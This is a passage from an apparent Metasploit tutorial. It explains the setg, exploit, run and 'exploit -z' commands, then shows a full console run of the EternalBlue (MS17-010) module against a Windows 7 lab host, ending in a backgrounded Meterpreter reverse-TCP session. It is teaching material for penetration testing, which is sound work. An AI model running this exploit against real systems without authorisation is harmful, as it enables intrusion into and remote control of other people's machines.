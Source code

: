 The `setg` command sets a global value that will be used until you exit Metasploit or clear it using the `unsetg` command.

## Using modules

Once all module parameters are set, you can launch the module using the `exploit` command. Metasploit also supports the `run` command, which is an alias created for the `exploit` command as the word exploit did not make sense when using modules that were not exploits (port scanners, vulnerability scanners, etc.).

The `exploit` command can be used without any parameters or using the “`-z`” parameter.

The `exploit -z` command will run the exploit and background the session as soon as it opens.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z

[*] Started reverse TCP handler on 10.10.44.70:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.12.229
[*] Meterpreter session 2 opened (10.10.44.70:4444 -> 10.10.12.229:49186) at 2021-08-20 02:06:48 +0100
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 2 created in the background.
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
